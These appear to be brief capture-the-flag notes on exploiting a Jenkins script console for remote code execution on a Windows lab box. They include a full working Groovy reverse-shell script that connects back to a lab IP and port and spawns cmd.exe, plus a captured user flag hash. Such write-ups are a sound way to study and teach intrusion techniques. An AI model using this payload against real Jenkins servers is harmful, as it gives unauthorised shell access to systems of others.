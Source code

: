 ## jenkins RCE

from the Manage section we can execute arbitrary code via script console

![[Pasted image 20210527155043.png]]

And we have to write a groovy script to get rev shell 

from this repo we get the script 

https://github.com/gquere/pwn_jenkins 

but its for linux box so using rev shell from 

https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

```
String host="10.17.4.208";
int port=9001;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

execute it

![[Pasted image 20210527160126.png]]

and we got the shell 

![[Pasted image 20210527160142.png]]

got user

![[Pasted image 20210527160316.png]]

user === 79007a09481963edf2e1321abd9ae2a0



